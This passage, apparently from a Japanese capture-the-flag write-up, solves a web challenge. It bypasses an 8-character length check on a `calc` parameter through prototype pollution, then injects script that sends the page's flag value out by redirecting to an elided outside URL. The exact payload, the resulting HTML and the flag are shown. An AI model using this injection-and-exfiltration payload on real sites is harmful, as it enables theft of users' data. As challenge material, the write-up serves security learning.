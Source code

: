 使うことのできる文字種の制限はありません。ただし、`aaaaaaaa` ではそのまま出力され、`aaaaaaaaa` は `1337` が出力されることから、8 文字以下でなければならないという制約があるようです。

もし `calc` が配列やオブジェクトになればどうなるか気になり `/?calc[a]=abc` にアクセスしてみたところ、`[object Object]` が出力されました。`calc` が文字列型かどうかは確認されていないようです。

配列の場合はどうなるか `/?calc[]=a&calc[]=b` にアクセスしてみたところ、今度は `1337` と表示されました。なぜでしょうか。

Prototype Pollution ができないかいろいろ試していると、`/?calc[__proto__][]=aaaaaaaaaaaa` で 9 文字以上のはずの `aaaaaaaaaaaa` がそのまま出力されました。これは `calc` にアクセスすると `['aaaaaaaaaaaa']` が返ってきて、`calc.length` が `1` になるためでしょう。

あとはやるだけです。CSP のせいで `(new Image).src = '…'` は使えませんから、`location` で適当な URL に遷移させてフラグを抽出します。`/?calc[__proto__][]=);window.onload=()=>{location=%27https://(省略)?%27%2bdocument.getElementsByName(%27flag%27)[0].value}//` で以下のような HTML が出力され、フラグが得られました。

```html
<script nonce="OTVlZWYxYTJkYWM3NWZkYQ==">
  onhashchange = () => alert();window.onload=()=>{location='https://(省略)?'+document.getElementsByName('flag')[0].value}//);
</script>
```

```
CTF-BR{b3tt3r_b3_s4f3_th4n_s0rry}
```
